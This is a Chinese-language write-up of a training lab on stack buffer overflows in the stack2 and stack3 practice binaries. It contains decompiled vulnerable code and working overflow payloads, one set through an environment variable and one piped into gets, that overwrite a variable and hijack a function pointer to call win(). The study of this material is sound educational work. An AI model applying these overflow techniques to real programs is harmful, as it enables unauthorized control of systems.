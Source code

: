 # <center>栈溢出实验2</center>

## 实验概述

### 【目的】
1. 运行stack2，获得输出`you have correctly modified the variable`
2. 运行stack3，获得输出`code flow successfully changed`
### 【环境】
Linux
### 【工具】
python,IDA pro
### 【原理】
缓冲区溢出（buffer overflow），是针对程序设计缺陷，向程序输入缓冲区写入使之溢出的内容（通常是超过缓冲区能保存的最大数据量的数据），从而破坏程序运行、趁著中断之际并获取程序乃至系统的控制权。
## 实验步骤

### 【步骤】

#### stack2

```
$ binwalk stack2

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             ELF, 32-bit LSB executable, Intel 80386, version 1 (SYSV)
```
打开IDA进行分析。
```c#
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char dest; // [sp+8h] [bp-50h]@3
  int v5; // [sp+48h] [bp-10h]@3
  char *src; // [sp+4Ch] [bp-Ch]@1

  src = getenv("GREENIE");
  if ( !src )
    errx(1, "please set the GREENIE environment variable\n");
  v5 = 0;
  strcpy(&dest, src);
  if ( v5 == 218762506 )
    puts("you have correctly modified the variable");
  else
    printf("Try again, you got 0x%08x\n", v5);
  return 0;
}
```
跟实验一的stack1差不多，我们可以发现危险函数`strcpy(&dest, src);`
这里要控制src变量的值，需要自定义环境变量GREENIE，在Linux中，使用 `export 变量=值`
可以改变当前环境变量的值，于是有：
```
lometsj@ubuntu:~/prostar$ export GREENIE=`python -c 'print "A"*64 + "\x0a\x0d\x0a\x0d"'`
lometsj@ubuntu:~/prostar$ echo $GREENIE
 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA 
lometsj@ubuntu:~/prostar$ ./stack2
you have correctly modified the variable

```

#### stack3
```
$ binwalk stack3

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             ELF, 32-bit LSB executable, Intel 80386, version 1 (SYSV)

```

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [sp+Ch] [bp-4Ch]@1
  void (*v5)(void); // [sp+4Ch] [bp-Ch]@1

  v5 = 0;
  gets(&s);
  if ( v5 )
  {
    printf("calling function pointer, jumping to 0x%08x\n", v5);
    v5();
  }
  return 0;
}
int win()
{
  return puts("code flow successfully changed");
}
```
```
.text:0804846B                 public win
.text:0804846B win             proc near
.text:0804846B                 push    ebp
.text:0804846C                 mov     ebp, esp
.text:0804846E                 sub     esp, 8
.text:08048471                 sub     esp, 0Ch
.text:08048474                 push    offset s        ; "code flow successfully changed"
.text:08048479                 call    _puts
.text:0804847E                 add     esp, 10h
.text:08048481                 nop
.text:08048482                 leave
.text:08048483                 retn
.text:08048483 win             endp
```
可以发现危险函数`gets(&s);`,观察可以发现，当v5不为0时，程序会跳转到v5指向的地址执行，这里我们把v5指向函数`int win()`的地址，可以得到输出`code flow successfully changed`。

```
$ python -c "print 'a'*64 + '\x6b\x84\x04\x08'" | ./stack3
calling function pointer, jumping to 0x0804846b
code flow successfully changed

```
可以看到我们通过溢出成功跳转到了win函数执行代码。
### 【总结】
这次实验通过栈溢出简单的熟悉了Linux下环境变量的设置和c语言的函数指针，需要注意的是，通过export设置的环境变量只对当前终端有效。
可以发现，要使栈溢出发生，要满足以下条件：

- 程序允许用户输入
- 程序对用户的输入长度不加检查

栈溢出攻击是最为普遍而又危害极大的漏洞，要防御栈溢出攻击，首先要有良好的编码功力，对于用户的输入数据要做严格的长度检查，避免使用危险的函数。

